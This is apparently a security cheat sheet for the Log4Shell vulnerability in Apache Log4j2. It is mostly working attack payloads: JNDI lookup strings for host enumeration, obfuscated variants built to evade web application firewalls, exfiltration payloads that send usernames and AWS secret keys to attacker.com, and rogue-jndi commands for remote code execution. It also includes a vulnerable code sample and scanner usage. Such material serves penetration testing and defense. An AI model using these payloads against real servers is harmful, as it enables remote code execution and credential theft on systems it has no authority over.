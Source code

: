 # CVE-2021-44228 Log4Shell

> Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled

## Summary

* [Vulnerable code](#vulnerable-code)
* [Payloads](#payloads)
* [Scanning](#scanning)
* [WAF Bypass](#waf-bypass)
* [Exploitation](#exploitation)
    * [Environment variables exfiltration](#environment-variables-exfiltration)
    * [Remote Command Execution](#remote-command-execution)
* [References](#references)

## Vulnerable code

You can reproduce locally with: `docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app` using [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) or [leonjza/log4jpwn](
https://github.com/leonjza/log4jpwn)
```java
public String index(@RequestHeader("X-Api-Version") String apiVersion) {
    logger.info("Received a request for API version " + apiVersion);
    return "Hello, world!";
}
```

## Payloads

```bash
# Identify Java version and hostname
${jndi:ldap://${java:version}.domain/a}
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:dns://${hostName}.domain}

# More enumerations keywords and variables
java:os
docker:containerId
web:rootDir
bundle:config:db.password
```

## Scanning

* [log4j-scan](https://github.com/fullhunt/log4j-scan)
    ```powershell
    usage: log4j-scan.py [-h] [-u URL] [-l USEDLIST] [--request-type REQUEST_TYPE] [--headers-file HEADERS_FILE] [--run-all-tests] [--exclude-user-agent-fuzzing]
                        [--wait-time WAIT_TIME] [--waf-bypass] [--dns-callback-provider DNS_CALLBACK_PROVIDER] [--custom-dns-callback-host CUSTOM_DNS_CALLBACK_HOST]
    python3 log4j-scan.py -u http://127.0.0.1:8081 --run-all-test
    python3 log4j-scan.py -u http://127.0.0.1:808 --waf-bypass
    ```
* [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/cves/2021/CVE-2021-44228.yaml)


## WAF Bypass

```powershell
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/a}

# using lower and upper
${${lower:jndi}:${lower:rmi}://127.0.0.1:1389/poc}
${j${loWer:Nd}i${uPper::}://127.0.0.1:1389/poc}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}

# using env to create the letter
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```

## Exploitation

### Environment variables exfiltration

```powershell
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/

# AWS Access Key
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}
```


### Remote Command Execution

* [rogue-jndi - @artsploit](https://github.com/artsploit/rogue-jndi)
    ```ps1
    java -jar target/RogueJndi-1.1.jar --command "touch /tmp/toto" --hostname "192.168.1.21"
    Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
    Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
    Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
    Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
    Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
    Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
    Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
    Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
    ```
* [JNDI-Exploit-Kit - @pimps](https://github.com/pimps/JNDI-Exploit-Kit)


## References

* [Log4Shell: RCE 0-day exploit found in log4j 2, a popular Java logging package - December 12, 2021](https://www.lunasec.io/docs/blog/log4j-zero-day/)
* [Log4Shell Update: Second log4j Vulnerability Published (CVE-2021-44228 + CVE-2021-45046) - December 14, 2021](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)
* [PSA: Log4Shell and the current state of JNDI injection - December 10, 2021](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/)